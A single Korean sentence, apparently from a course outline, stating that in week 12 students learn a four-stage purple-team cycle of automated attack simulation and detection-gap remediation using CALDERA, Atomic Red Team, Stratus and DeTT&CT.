학생은 본 12주차에서 **CALDERA + Atomic Red Team + Stratus + DeTT&CT** 4 도구로 자동 시뮬레이션의 4 단계 (시나리오 정의 → 실행 → 탐지 측정 → gap 보강) Purple team 사이클을 익힌다.
